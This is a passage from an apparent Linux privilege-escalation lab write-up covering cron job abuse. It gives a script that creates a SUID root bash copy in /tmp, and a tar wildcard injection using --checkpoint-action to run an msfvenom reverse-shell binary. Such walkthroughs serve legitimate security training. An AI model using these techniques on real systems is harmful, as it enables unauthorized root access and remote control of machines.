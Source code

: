 
```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

This script copies the `bash` binary of `root` (since the cronjob will run as root) to the user's `tmp` directory, and running the file will give you the `root shell`.

# Task 10 : Cron Jobs - Wildcards

Now looking into the other cronjob we saw in task 8 - `cat /usr/local/bin/compress.sh`

```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

This script does a simple task of compressing the content of `/home/user` and storing it at `/tmp/backup.tar.gz`

The wildcard `*` will be replaced by the name of every file in `/home/user` so we can exploit this by manipulating the filenames.

From [gtfobins](https://gtfobins.github.io/gtfobins/tar/), we understand that the flag `--checkpoint` and -`-checkpoint-action` can be exploited to execute files. 

We create a `reverse-shell` ELF binary using msfvenom and send it to the target using `scp` .

Also we create two extra files as shown.

When the cronjob will be executed, `tar` command will expand to 

```bash
tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=shell.elf
```

It will not include further file names since this forms a complete `tar` command.

This will execute `shell.elf` which will create a reverse-shell which can be accessed by creating a `netcat` listener on your machine

And we get the root access!!

![/assets/images/posts/linuxprivesc/Untitled%204.png](/assets/images/posts/linuxprivesc/Untitled%204.png)
